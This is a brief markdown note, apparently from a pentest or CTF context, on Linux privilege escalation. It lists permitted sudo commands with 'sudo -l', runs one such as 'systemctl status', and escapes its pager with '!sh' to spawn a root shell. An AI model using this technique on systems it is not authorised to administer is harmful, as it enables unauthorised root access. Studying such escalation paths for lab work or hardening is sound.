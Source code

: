 ~Check what command you are able to run as sudo 

$ sudo -l 

~then if it says you can run a command as sudo, run the command, example systemctl status. Then when in there, give the comment to spawn root shell 

$ !sh 

$ whoami